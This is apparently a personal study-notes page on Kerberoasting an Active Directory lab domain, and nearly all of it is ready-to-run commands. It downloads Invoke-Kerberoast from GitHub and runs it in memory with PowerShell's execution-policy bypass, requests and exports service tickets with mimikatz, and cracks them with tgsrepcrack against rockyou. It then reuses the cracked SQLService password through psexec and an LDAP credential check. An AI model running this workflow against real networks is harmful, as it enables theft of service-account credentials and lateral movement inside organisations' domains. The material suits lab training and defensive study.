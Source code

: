 #### Fast method - Hashcat

```bash - kali
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

[[4._File Transfers#Certutil]]

[[2._Powershell  Bypass]]

If already transferred, just run:
```powershell - target
Import-Module .\Invoke-Kerberoast.ps1
```

```powershell - target
Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```


OR use **either** cmd or powershell to execute Invoke-Kerberoast into Hashcat format:

```command prompt - windows
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```

![[Pasted image 20220119113224.png]]

```powershell - windows
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat 
```

![[Pasted image 20220119113544.png]]

Paste hash into notepad++, select all, press CTRL+J to join all the lines together.  CRTL+H > enable Regular express.  Replace the spaces in the document with:

Find what: \s*
Replace with: 

Copy to hashes.txt 

[[Hashcat#Kerberos TGS-REP]]

SQLService
MYpassword123#

```bash - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### GetUserSPNs - Kerberoast

```
wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1
```

```powershell - windows
.\GetUserSPNs.ps1
```

![[Pasted image 20220118203835.png]]

ServicePrincipleName: ==HYDRA-DC/SQLService.MARVEL.local:60111==

```powershell - target
Add-Type -AssemblyName System.IdentityModel
```

```powershell - target
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HYDRA-DC/SQLService.MARVEL.local:60111"
```

![[Pasted image 20220118204148.png|2000]]

```Powershell
klist
```

```command prompt - mimikatz
kerberos::list /export
```

![[Pasted image 20220118191935.png]]

![[Pasted image 20220118192457.png]]

Files can be found in the same directory as mimikatz.exe.  Transfer it to Kali.

![[Pasted image 20220101190402.png]]

[[4._File Transfers]]

```bash - Kali
sudo apt update && sudo apt install kerberoast
```

OR

```bash - Kali
git clone https://github.com/nidem/kerberoast
```

```bash - Kali
cd kerberoast
```

```python - Kali
python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt ../1-40a50000-groot@LDAP~Xandar.MARVEL.local~MARVEL.local-MARVEL.LOCAL.kirbi
```

MYpassword123#

---
==CredsTest.ps1==

```Powershell - target
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "SQLService", "MYpassword123#")

```
---

![[Pasted image 20220118211216.png]]



